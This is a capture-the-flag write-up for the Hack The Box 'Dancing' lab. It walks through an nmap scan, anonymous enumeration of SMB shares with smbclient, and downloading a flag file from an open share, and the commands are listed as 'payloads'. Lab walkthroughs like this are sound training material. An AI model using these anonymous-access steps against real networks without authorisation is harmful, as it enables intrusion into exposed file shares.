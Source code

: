 ## 💃 HTB Starting Point: Dancing  
**Level**: Easy  
**Date**: July 12, 2025  
**Goal**: Enumerate and exploit an open SMB service to retrieve the user flag.

---

### 🧰 Tools  
- `nmap`  
- `smbclient`  
- Basic Linux commands (`ls`, `get`, `cat`)  

---

### 🧭 Steps  

1. 🔎 **Scan the target with `nmap`** to identify SMB ports and service versions:
   ```bash
   nmap -sC -sV -Pn -n -T4 10.129.X.X
   ```

---

### Output
```
PORT    STATE SERVICE       VERSION
445/tcp open  microsoft-ds  Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
```

---

2. 📂 **Enumerate SMB shares anonymously**:
   ```bash
   smbclient -L \\10.129.X.X\\ -N
   ```

   Example output:
   ```
   Sharename       Type      Comment
   ---------       ----      -------
   WorkShares      Disk      Company Shared Drive
   ```

---

3. 📁 **Access the share and download the flag**:
   ```bash
   smbclient \\10.129.X.X\WorkShares -N
   ```

   Inside the SMB shell:
   ```bash
   ls
   get flag.txt
   exit
   ```

---

4. 📖 **Read the flag locally**:
   ```bash
   cat flag.txt
   # HTB{REDACTED}
   ```

---

### 💣 Payloads Used  
```bash
nmap -sC -sV -Pn -n -T4 10.129.X.X
smbclient -L \\10.129.X.X\\ -N
smbclient \\10.129.X.X\WorkShares -N
ls
get flag.txt
cat flag.txt
```
